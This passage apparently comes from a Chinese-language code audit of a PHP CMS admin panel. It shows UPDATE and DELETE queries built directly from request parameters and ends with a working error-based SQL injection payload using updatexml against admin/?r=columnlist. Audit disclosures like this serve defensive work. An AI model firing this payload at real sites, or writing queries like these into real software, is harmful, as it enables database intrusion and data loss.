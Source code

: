 ```php
        $query = "UPDATE navclass SET 
name='$name',
keywords='$keywords',
description='$description',
xs='$xs',
px='$px',
tuijian='$tuijian',
date=now()
WHERE id='$id'";
        @mysql_query($query) or die('修改错误：' . mysql_error());

        echo "<script>alert('亲爱的，二级栏目已经成功编辑。');location.href='?r=columnlist'</script>";
        exit;
    }
}
?>
```

同上

## admin/files/columnlist.php存在SQL注入

```php
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$columnlistopen = 'class="open"';

$delete = $_GET['delete'];

$delete2 = $_GET['delete2'];

if ($delete <> "") {
    $query = "DELETE FROM nav WHERE id='$delete'";
    $result = mysql_query($query) or die('SQL语句有误：' . mysql_error());
    echo "<script>alert('亲，ID为" . $delete . "的栏目已经成功删除！');location.href='?r=columnlist'</script>";
    exit;
}
if ($delete2 <> "") {
    $query = "DELETE FROM navclass WHERE id='$delete2'";
    $result = mysql_query($query) or die('SQL语句有误：' . mysql_error());
    echo "<script>alert('亲，ID为" . $delete2 . "的二级栏目已经成功删除！');location.href='?r=columnlist'</script>";
    exit;
}
?>
```

单引号闭合即可,可以使用报错注入

`admin/?r=columnlist&delete=' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)--+`
